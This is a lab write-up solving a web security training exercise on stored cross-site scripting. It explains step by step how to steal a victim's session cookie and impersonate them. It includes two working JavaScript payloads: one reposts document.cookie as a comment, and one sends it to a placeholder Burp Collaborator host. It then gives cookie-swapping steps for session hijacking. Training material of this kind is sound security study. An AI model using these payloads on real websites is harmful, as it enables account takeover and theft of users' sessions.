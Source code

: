 ## Solution steps

- Open any blog post and write a comment to trigger an alert with random name and email.
- Notice that you can trigger an alert easily with this kind of payload: `<script>alert(1)</script>`
- But in this lab we have to steal victim's session cookie, then use this cookie to impersonate the victim.

- This Lab has 2 solutions, one using Burp Collaborator and another without using Burp Collaborator. I will explain the steps without using burp collaborator as I don't have the premium version. But I will paste the another solution at the bottom from their official solution for your and my convenience :)

### Without using Burp Collaborator

- This solution is considered less subtle because this will make the victim to post their session cookie as a comment and every user visiting the page will be able to see it.
- Open Burp suite and set-up proxy (Keep intercept off).
- Post a random comment.
- From Http history, view `POST /post/comment` and notice that the request contains your session cookie and a `csrf` parameter.
- Copy the following payload and paste it as comment with random name and email:
  ```html
  <script>
  window.addEventListener('DOMContentLoaded', function(){

  var token = document.getElementsByName('csrf')[0].value;
  var data = new FormData();

  data.append('csrf', token);
  data.append('postId', 5);
  data.append('comment', document.cookie);
  data.append('name', 'chris');
  data.append('email', 'chris@01.com');
  data.append('website', 'http://www.chris.com');

  fetch('/post/comment', {
	  method: 'POST',
	  mode: 'no-cors',
	  body: data
  });
  });
  </script>
- Note: Change the `postId` parameter according to the post where you're commenting.
- Go back to the post and view that the session cookie and a secret is posted.
- Copy the session cookie, inspect the page using Ctrl+shift+c and go to application tab.
- Go to cookies and change the session cookie's value with the victim's cookie and hit Enter.

#### How the script works
- This script runs when the page finishes loading. It grabs the `CSRF` token from the page, creates a FormData object, and fills it with the necessary fields to post a comment.
- The key part is that it sets the comment field to document.cookie, which captures the user's cookies. It then uses `fetch()` to send a `POST` request to the `/post/comment` endpoint, silently submitting the stolen cookie as a comment.
- `mode: 'no-cors'` is used to prevent CORS related errors since we don’t need to read the server's response.


### Using Burp Collaborator

- Using Burp Suite Professional, go to the Collaborator tab.
- Click "Copy to clipboard" to copy a unique Burp Collaborator payload to your clipboard.
- Submit the following payload in a blog comment, inserting your Burp Collaborator subdomain where indicated:
  ```html
  <script>
  fetch('https://BURP-COLLABORATOR-SUBDOMAIN', {
  method: 'POST',
  mode: 'no-cors',
  body:document.cookie
  });
  </script>
- This script will make anyone who views the comment issue a POST request containing their cookie to your subdomain on the public Collaborator server.
- Go back to the Collaborator tab, and click "Poll now". You should see an HTTP interaction. If you don't see any interactions listed, wait a few seconds and try again.
- Take a note of the value of the victim's cookie in the POST body.
- Reload the main blog page, using Burp Proxy or Burp Repeater to replace your own session cookie with the one you captured in Burp Collaborator. Send the request to solve the lab. To prove that you have successfully hijacked the admin user's session, you can use the same cookie in a request to /my-account to load the admin user's account page.
